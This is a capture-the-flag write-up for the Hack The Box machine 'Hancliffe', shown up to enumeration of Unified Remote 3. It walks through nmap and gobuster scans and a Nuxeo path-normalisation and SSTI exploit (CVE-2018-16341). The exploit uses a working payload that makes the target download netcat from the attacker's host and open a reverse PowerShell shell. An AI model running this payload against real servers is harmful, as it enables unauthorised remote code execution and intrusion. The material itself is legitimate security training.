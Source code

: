 ```yaml
---
title:     "Hack The Box - Hancliff"
tags: [windows,hard,nuxeo,ssti,path normalization,unified remote,cve,firefox,binex,pwn,eggunter]
categories: HackTheBox
---
```

[![00_info_card](/img/hancliff/00_info_card.png)](/img/hancliff/00_info_card.png)

Hancliffe is a hard rated machine on HackTheBox created by [Revolt](https://www.hackthebox.eu/home/users/profile/189435). For the user part we will abuse a path normalisation vulnerability and a CVE in nuxeo to achieve RCE and a foothold on the machine. On the machine the running `Unified Remote 3` version has another know vulnerability which gives us a shell as clara. For the root part we will find credentials for a password manager in clara's firefox data. This let's us login via PSRemote as the development user, who has access to a directory with an application running as administrator. This application has a buffer overflow vulnerability which we can abuse to achieve a reverse shell as administrator on the machine.

# User

## Nmap

As usual we start our enumeration of with a nmap scan against all ports followed by a script and version detection scan against the open ones to get an initial overview of the attack surface.

`All ports`
```
$ sudo nmap -p- -T4 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:43 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
8000/tcp open  http-alt
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 290.27 seconds
```

`Scrip and version`
```
$ sudo nmap -p80,8000,9999 -sC -sV 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:49 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.21.0
8000/tcp open  http    nginx 1.21.0
|_http-title: HashPass | Open Source Stateless Password Manager
|_http-server-header: nginx/1.21.0
9999/tcp open  abyss?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBPr
ogNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|     Welcome Brankas Application.
|     Username: Password:
|   NULL:
|     Welcome Brankas Application.
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.92%I=7%D=10/10%Time=61631994%P=x86_64-pc-linux-gnu%r(N
...[snip]...
F:sword:\x20")%r(NotesRPC,31,"Welcome\x20Brankas\x20Application\.\nUserna
SF:me:\x20Password:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.03 seconds
```

## Nuxeo

From the open ports the web ports seem promising so we start there. Going over to port 80 we see the default nginx hosting page.

[![01_nginx_home](/img/hancliff/01_nginx_home.png)](/img/hancliff/01_nginx_home.png)

On port 8000 there is an installation of a password manager running which doesn't seem of much use just yet.

[![02_hashpass_home](/img/hancliff/02_hashpass_home.png)](/img/hancliff/02_hashpass_home.png)

Running a gobuster scan on the application on port 80 we can identify a maintenance directory which get's redirected to `/nuxeo/Maintenance/`.

```
$ gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://hancliffe.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hancliffe.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/10 17:28:57 Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 612]
/maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
/con                  (Status: 500) [Size: 494]
/nul                  (Status: 500) [Size: 494]
```

Looking for recent vulnerabilities in nuxeo we find [CVE-2018-16341](https://github.com/mpgn/CVE-2018-16341). Going over to `/maintenance` it just displays a `we'll be back soon` page.

[![03_nginx_maintenance](/img/hancliff/03_nginx_maintenance.png)](/img/hancliff/03_nginx_maintenance.png)

The application does howerver perform a dangerous path normalisation which let's us access the directory one path up leading to access to the `login.jsp` page mentioned in the PoC exploit of the CVE. This page also displays the running version of nuxeo which seems to be promising for the vulnerability to be present.

[![04_nuxeo_login](/img/hancliff/04_nuxeo_login.png)](/img/hancliff/04_nuxeo_login.png)

Testing for the SSTI with a simple payload we can see that our code gets evaluated, confirming our suspicion.

[![06_nuxeo_ssti_poc](/img/hancliff/06_nuxeo_ssti_poc.png)](/img/hancliff/06_nuxeo_ssti_poc.png)

Following the PoC of the exploit we can build a payload adding an additional parameter in the `exec` part. This let's us move our complete payload to the end of the request.

```
/maintenance/..;/login.jsp/pw${''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(param.x)}.xhtml?x=powershell.exe+iwr+http://10.10.14.74/nc64.exe+-o+C:/windows/temp/c.exe;C:/windows/temp/c.exe+-e+powershell+10.10.14.74+7575
```

We start a python webserver to host our netcat binary and listen on the port we want to recieve the reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we can send the request in burp, url encoding the whole SSTI part of the payload to safely send bad characters.

[![07_nuxeo_burp_rev](/img/hancliff/07_nuxeo_burp_rev.png)](/img/hancliff/07_nuxeo_burp_rev.png)

We get a hit on our web server for the `nc64.exe` binary and almost instantly after a reverse shell on our listener as `svc_account`

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.247 - - [10/Oct/2021 19:49:06] "GET /nc64.exe HTTP/1.1" 200 -
10.129.95.247 - - [10/Oct/2021 19:50:10] "GET /nc64.exe HTTP/1.1" 200 -
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:49762.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Nuxeo> whoami
hancliffe\svc_account
```

## Unified Remote 3

Looking for unusual installed programs we find `Unified Remote 3`.

```
PS C:\Nuxeo > ls '\Program Files (x86)\ '

    Directory: C:\Program Files (x86)


d-----          6/3/2021   8:09 PM                Microsoft
d-----         12/7/2019   6:48 AM                Microsoft.NET
d-----         6/26/2021  10:15 PM                Mozilla Maintenance Service
d-----         6/12/2021   2:51 AM                MSBuild
d-----         6/12/2021   2:51 AM                Reference Assemblies
d-----         6/12/2021  12:21 AM                Unified Remote 3
d-----          4/9/2021   6:48 AM                Windows Defender
d-----         7/18/2021  12:20 AM                Windows Mail
d-----         12/7/2019   6:44 AM                Windows NT
d-----          4/9/2021   6:48 AM                Windows Photo Viewer
d-----         12/7/2019   1:25 AM                WindowsPowerShell

```

